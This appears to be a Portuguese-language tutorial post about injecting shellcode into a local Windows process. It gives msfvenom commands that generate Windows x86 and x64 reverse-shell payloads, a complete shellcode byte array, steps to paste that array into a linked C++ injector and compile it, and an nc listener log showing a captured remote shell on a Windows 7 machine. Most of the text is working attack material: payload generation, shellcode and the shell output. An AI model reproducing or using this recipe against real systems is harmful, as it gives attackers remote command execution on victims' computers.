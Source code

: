 ```yaml
---
title: Injeção de Código - Injection Local Process
category: post
---
```


>link do código usado : 
https://github.com/d0x75/Injector-LocalProcess.git

---


**Windows CreateRemoteThread Shellcode Injection and Execution in Local Process**

>Esse é a clássica Injeção de Shellcode que fazemos no
módulo/processo local do próprio binário compilado com os bytes de shellcode que será injetado. 

>Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; conforme faremos nos passos a diante:


#### Step 1 

- Gerar os bytes do shellcode para Windows x86, apontando para o IP e Porta do computador que vai ganhar o acesso.


```ruby
msfconsole
msfvenom -p windows/shell_reverse_tcp 
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```
- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.


```ruby
msfconsole
msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :
```c++
		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";
```

#### Step 2

- Fazer o download do código do link mencionado no inicio, que tem o código responsável por executar os bytes gerados acima.


```text
injectlocal.cpp
```

- Copiar os bytes gerados pelo msfvenom no Step 1,
em seguinda devemos colar esses bytes no conteúdo da variável *unsigned char shellcode[] = ""* do código 'injectlocal.cpp' e depois compilar-lo.

- Ao compilar o software com sucesso teremos o executável pronto para uso.


```text
injectlocal.exe
```

#### Step 3


- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador com o IP que também colocamos como argumento no msfvenom para gerar o shellcode 

```bash
nc -vlp 1234
```

- Então assim que o binário compilado para injetar o
shellcode for executado, devemos ganhar o acesso no
alvo.


```bash
nc -vlp 1234
listening on [any] 1234 ...
192.168.10.109: inverse host lookup failed: Host name lookup failure
connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
Microsoft Windows [vers�o 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

C:\Users\VBOX_7\Desktop>
```


